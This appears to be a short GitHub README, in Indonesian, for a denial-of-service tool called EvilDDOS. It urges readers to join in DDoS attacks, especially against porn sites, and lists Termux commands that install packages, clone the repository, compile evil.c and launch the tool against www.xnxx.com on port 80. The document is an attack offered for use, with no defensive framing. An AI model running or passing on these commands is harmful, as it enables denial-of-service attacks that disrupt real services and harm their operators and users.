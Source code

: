 # EvilDDOS

TERUS MELUNCURKAN SERANGAN DDOS APALAGI SITUS PORN
AYO GABUNG DENGAN MELAKUKAN DDOS BERSAMA

$ pkg install python2

$ pkg install git

$ pkg install clang

$ git clone https://github.com/story19/EvilDDOS

$ cd evilDDOS

$ clang evil.c -o evil

$ chmod +x evil

$ ./evil www.xnxx.com 80
